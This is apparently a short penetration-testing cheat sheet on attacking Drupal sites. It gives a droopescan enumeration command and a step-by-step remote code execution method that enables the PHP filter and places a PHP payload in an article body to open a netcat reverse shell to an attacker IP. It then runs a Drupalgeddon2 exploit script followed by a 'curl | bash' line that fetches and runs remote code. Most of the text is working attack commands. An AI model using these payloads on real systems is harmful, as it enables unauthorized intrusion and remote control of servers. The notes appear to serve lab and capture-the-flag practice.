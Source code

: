 # Drupal

## Drupal

### Drupal Enumeration

We can use droopescan:

```bash
droopescan scan drupal -u http://10.10.10.102
```

### Drupal RCE

First: Modules -> Enable PHP filter&#x20;

Second: Add content -> Article

Then listen in a port of your choosing :

```
nc -lvnp 443
```

Afterward in the Drupal Article **Body **add this payload:

```bash
<?php system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.8 443 >/tmp/f"); ?>
```

Next, in the **Text Format**, we select **PHP code.**

Finally, we click on the **Preview **button.

## Drupal Exploits

### Druppalgeddon

```
ruby druppalgeddon2.rb 10.10.10.233
> curl -s 10.10.14.20 | bash
```
